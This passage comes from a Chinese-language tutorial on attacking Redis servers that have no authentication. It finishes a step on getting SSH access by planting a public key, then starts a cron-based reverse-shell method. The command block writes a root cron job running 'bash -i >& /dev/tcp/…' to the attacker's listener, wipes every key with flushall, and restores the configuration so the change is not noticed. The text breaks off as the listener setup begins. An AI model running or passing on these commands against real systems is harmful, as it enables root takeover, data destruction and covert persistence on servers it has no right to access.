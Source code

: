 复制公钥里面的内容，即可利用。

### POC-T框架下对应的利用脚本：
![图片](https://ae01.alicdn.com/kf/Ucaa2c5ebcbde40afa5d9b493f19f12ffC.png)

利用xshell连接即可：

![图片](https://ae01.alicdn.com/kf/U51e78c2085c24eef9feea6cbce4d80a9B.png)

点击连接，输入用户名然后选择公钥连接：

![图片](https://ae01.alicdn.com/kf/U4d32d4cd00744e4d81f64bc70235fdc7J.png)

输入我们前面填写的密码即可登陆。（密码就是我们那个前面密钥加密的密码）

## 二、 利用计划任务反弹shell
### 利用的原理：
```
/var/spool/cron/目录下存放的为以各个用户命名的计划任务文件，root用户可以修改任意用户的计划任务。dbfilename设置为root为用root用户权限执行计划任务。
```
执行命令反弹shell(写计划任务时会覆盖原来存在的用户计划任务).写文件之前先获取dir和dbfilename的值，以便恢复redis配置，将改动降到最低，避免被发现。
### 需要的条件：
需要redis是root用户启动

### redis执行的命令：
```
#获取dir的值
config get dir
#获取dbfilename的值
config get dbfilename
#设置数据库备份目录为linux计划任务目录
config set dir '/var/spool/cron/'
#设置备份文件名为root，以root身份执行计划任务
config set dbfilename 'root'
#删除所有数据库的所有key
flushall
#设置写入的内容，在计划任务前后加入换行以确保写入的计划任务可以被正常解析，此处可以直接调用lua语句。
eval "redis.call('set','cron',string.char(10)..ARGV[1]..string.char(10))" 0 '*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/8080 0>&1'
#保存
save
#删除新增的key
del cron
#恢复dir和dbfilename
config set dir '***'
config set dbfilename '***'
```
具体操作：

1、攻击机监听好接收shell的端口：
